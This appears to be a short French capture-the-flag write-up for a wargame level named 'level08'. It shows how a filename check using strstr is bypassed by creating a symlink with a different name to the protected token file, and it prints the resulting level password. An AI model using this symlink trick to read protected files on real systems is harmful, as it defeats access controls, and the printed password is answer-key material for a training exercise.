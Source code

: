 J'execute ./level08 avec token en parametres, sa me dis que je n'ai pas les droits sur token

"You may not access 'token'"
```bash
echo 'test' > /tmp/token
./level08 /tmp/token
You may not access '/tmp/token'
```
Après plusieurs test, j'utilise gdb et je vois qu'il y'a un strstr qui verifie si le fichier passer en parametre contient 'token'

Ensuite c'est facile
```bash
ln -s ~/token /tmp/gettoken
./level08 /tmp/gettoken
quif5eloekouj29ke0vouxean
```

"quif5eloekouj29ke0vouxean" c'est le token pour se connecter avec su flag08 pas le token pour valider.
